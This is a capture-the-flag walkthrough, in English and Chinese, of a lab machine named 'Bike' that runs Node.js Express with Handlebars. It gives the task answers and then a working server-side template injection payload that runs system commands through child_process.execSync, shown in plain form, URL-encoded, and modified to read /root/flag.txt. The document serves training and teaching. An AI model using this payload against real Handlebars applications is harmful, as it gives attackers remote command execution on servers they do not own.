





<center>Bike</center>


[toc]


## Bike

> bike


### 1. task

1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.

```shell
22,80
```

2. What software is running the service listening on the http/web port identified in the first question?

```shelll
node.js
```

3. What is the name of the Web Framework according to Wappalyzer?

```shell
Express
```

4. What is the name of the vulnerability we test for by submitting {{7*7}}?

````shell
Server Side Tempulate Injection
````

5. What is the templating engine being used within Node.JS?

```shell
handlebars
```

6. What is the name of the BurpSuite tab used to encode text?

```shell
Decoder
```

7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

```shell
url
```

8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

```shell
require
```

9. What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?

```shell
global
```

10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

```shell
root
```


### 2. SSTI

> 服务端模板引擎注入。


### 3. flag

> 获取flag

```shell
nmap -sV -sC IP
```



> wappalyzer 识别



**在E-mail输入框输入SSIT探测字符`{{7\*7}}`，页面报错，报错信息显示使用handlebars模版引擎，并且在/root/Backend目录下运行。**



> 执行payload.

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

**其中 `execsync('----')` 部分为我们需要更改执行的命令**

```shell
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

>  **对payload进行URL编码：**

```shell
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

**使用burpsuite抓包，更改email参数为URL编码下的payload，命令执行成功**



> **执行命令查看root目录 `ls /root/flag.txt`，对payload进行url编码**

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```




